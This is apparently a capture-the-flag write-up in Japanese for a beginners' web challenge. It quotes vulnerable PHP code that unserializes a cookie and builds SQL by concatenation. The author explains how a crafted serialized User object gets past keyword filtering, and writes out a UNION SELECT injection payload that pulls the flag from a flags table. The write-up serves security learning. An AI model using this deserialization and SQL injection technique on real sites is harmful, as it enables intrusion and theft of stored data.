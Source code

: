 # [WEB] serial 109pts
フラッグは flags テーブルの中にあるよ。ゲットできるかな？

https://serial.quals.beginners.seccon.jp

# Solution
![serial1](images/serial1.png)
適当な値を入力してRegisterボタンを押すとTodo Listが表示された。
![serial2](images/serial2.png)
問題文にフラグはflagsテーブルにあると書いてあるので、SQLインジェクションを狙う。
試しに `' OR 1=1 --` を送信すると、`? OR 1=1 --` が返ってきた。`'` がエスケープ処理されている。ソースコードを読んで確認する。
### todo.php
```PHP
<?php

class Todo {
    private const invalid_keywords = array("UNION", "'", "FROM", "SELECT", "flag");

    public $id;
    public $body;
    public $done;

    public function __construct($id = null, $body = null, $done = null) {
        $this->id = htmlspecialchars($id);
        $this->body = htmlspecialchars(str_replace(self::invalid_keywords, "?", $body));
        $this->done = $done;
    }
}

```
SQLインジェクションで頻繁に使われる単語や記号はエスケープ処理されていることがわかる。なので、TodoListからの攻撃は一旦諦める。ソースコードを読み進めていくと、`database.php` にヒントらしきものを見つけた。
### database.php
```PHP
    /**
     * findUserByName finds a user from database by given userId.
     *
     * @deprecated this function might be vulnerable to SQL injection. DO NOT USE THIS FUNCTION.
     */
    public function findUserByName($user = null)
    {
        if (!isset($user->name)) {
            throw new Exception('invalid user name: ' . $user->user);
        }

        $sql = "SELECT id, name, password_hash FROM users WHERE name = '" . $user->name . "' LIMIT 1";
        $result = $this->_con->query($sql);
        if (!$result) {
            throw new Exception('failed query for findUserByNameOld ' . $sql);
        }

        while ($row = $result->fetch_assoc()) {
            $user = new User($row['id'], $row['name'], $row['password_hash']);
        }
        return $user;
    }
```
コメントからも分かるように、`$user->name` の値を操作することで、攻撃が可能。findUserByName関数を使っている箇所を探すと、`signup.php` と `user.php`の２つがあった。
### signup.php
```PHP
~~~

$name = $_POST['name'];
$pass = password_hash($_POST['pass'], PASSWORD_DEFAULT);
$user = new User(-1, $name, $pass);

try {
    $db = new Database();
    $db->insertUser($user);

    $user = $db->findUserByName($user);
    if (!$user->isValid()) {
        throw new Exception("invalid user: " . $user->__toString());
    }
} catch (Exception $e) {
    var_dump($e->getMessage());
}

setcookie("__CRED", base64_encode(serialize($user)));

header('Location: /');
```
### user.php
```PHP
<?php

class User
{
    private const invalid_keywords = array("UNION", "'", "FROM", "SELECT", "flag");

    public $id;
    public $name;
    public $password_hash;

    public function __construct($id = null, $name = null, $password_hash = null)
    {
        $this->id = htmlspecialchars($id);
        $this->name = htmlspecialchars(str_replace(self::invalid_keywords, "?", $name));
        $this->password_hash = $password_hash;
    }

    public function __toString()
    {
        return "id: " . $this->id . ", name: " . $this->name . ", pass: " . $this->password_hash;
    }

    public function isValid()
    {
        return isset($this->id) && isset($this->name) && isset($this->password_hash);
    }
}

function login()
{
    if (empty($_COOKIE["__CRED"])) {
        return false;
    }

    $user = unserialize(base64_decode($_COOKIE['__CRED']));

    // check if the given user exists
    try {
        $db = new Database();
        $storedUser = $db->findUserByName($user);
    } catch (Exception $e) {
        die($e->getMessage());
    }
    // var_dump($user);
    // var_dump($storedUser);
    if ($user->password_hash === $storedUser->password_hash) {
        // update stored user with latest information
        // die($storedUser);
        setcookie("__CRED", base64_encode(serialize($storedUser)));
        return true;
    }
    return false;
}

function logout()
{
    setcookie("__CRED", "", time() - 30);
}

```
`signup.php` から確認する。\
引数の`＄user` は `＄user = new User(-1, $name, $pass)` からきているので、ここでインジェクション攻撃を起こすことは無理そう。（ _constructでエスケープ処理を行なっているため. ）\
`user.php` を確認する。\
引数の`$user` は `$user = unserialize(base64_decode($_COOKIE['__CRED']));` からきている。Cookieにセットした値をbase64でデコードして、それをデシリアライゼーションしている。`php unserialize` で調べると、脆弱性についての記事が見られたので、Cookieの値を変更することで攻撃が狙えそうである。攻撃の結果は`＄storeUser`に格納され、条件分岐`$user->password_hash === $storedUser->password_hash` を突破したら、Cookieにセットされる。`1_schema.sql` に flagsテーブルの構造が書いてあるので、あとは適切な攻撃文を選択すればフラグが手に入る。
### _CRED
```
Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtzOjU6IjE3MjQwIjtzOjQ6Im5hbWUiO3M6MzoidWhvIjtzOjEzOiJwYXNzd29yZF9oYXNoIjtzOjYwOiIkMnkkMTAkVjdld3dUMnFQZHlqam90cmV5Y1JNZWRPV3ZWY0hmNmh0TDgyeVJvNW1zQmNIZk5qODJYMnkiO30%3D
```
これをbase64でデコードすると
```
O:4:"User":3:{s:2:"id";s:5:"17240";s:4:"name";s:{nameの文字数}:{name};s:13:"password_hash";s:60:"$2y$10$V7ewwT2qPdyjjotreycRMedOWvVcHf6htL82yRo5msBcHfNj82X2y";}
```
`name` の部分に `'UNION SELECT NULL, body, CONCAT('', {password_hashの値}) FROM flags; -- ` をセットして, base64でデコードして送信すると、レスポンスのCookieの値が変更されていて、これを元に戻す（base64でデコード＆デシリアライゼーション）と、フラグが含まれていた。

書くことが多いと、まとめ方がわからない...分かりづらくてごめんなさい（ ;  ; ）